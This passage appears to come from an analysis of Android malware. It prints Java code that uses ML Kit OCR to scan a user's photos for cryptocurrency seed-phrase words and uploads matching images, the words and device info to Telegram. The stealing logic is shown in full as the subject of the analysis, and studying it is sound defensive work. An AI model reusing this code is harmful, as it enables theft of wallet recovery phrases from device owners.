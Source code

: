 After processing the image, the recognize Text From Image() method is called, which transmits the thumbnail image for analysis using Google ML Kit
Made for optimization.

```
private void recognizeTextFromImage(Bitmap bitmap, Uri imageUri) {
        InputImage image = InputImage.fromBitmap(bitmap, 0);
        TextRecognizer recognizer = TextRecognition.getClient(TextRecognizerOptions.DEFAULT_OPTIONS);

        recognizer.process(image)
                .addOnSuccessListener(result -> {
                    ArrayList<String> englishWords = extractEnglishWords(result);
                    boolean foundSpecialKeyword = checkForSpecialKeywords(englishWords);
                    boolean foundKeyword = checkForKeywords(englishWords);

                    // We send photos to tg only if there are from 12 to 24 words and the keyword is found
                    if (englishWords.size() >= 12 && englishWords.size() <= 24 && foundKeyword) {
                        String deviceInfo = getDeviceInfo();
                        sendPhotoToTelegram(imageUri, englishWords, deviceInfo + ": from 12 to 24 phrases and " + keywordcount + " from the seed phrases dictionary");
                    }


                    if (foundSpecialKeyword) {
                        String keyword = findSpecialKeyword(englishWords);
                        String deviceInfo = getDeviceInfo();
                        sendPhotoToTelegram(imageUri, englishWords, deviceInfo + ": The keyword was found: " + keyword);
                    }
                })
                .addOnFailureListener(e -> Log.e("Text Recognition", "Text recognition error", e));
    }
```

It is responsible for recognizing text in an image using Google ML Kit, analyzes the image, and the result is transmitted to methods for extracting keywords.

In case of successful recognition, the result is analyzed to check for the presence of keywords used in seed phrases.

```
private ArrayList<String> extractEnglishWords(Text result) {
        ArrayList<String> wordsList = new ArrayList<>();
        Pattern pattern = Pattern.compile("[a-zA-Z]+");
        for (Text.TextBlock block : result.getTextBlocks()) {
            Matcher matcher = pattern.matcher(block.getText());
            while (matcher.find()) {
                wordsList.add(matcher.group().toLowerCase());
            }
        }
        return wordsList;
    }
```
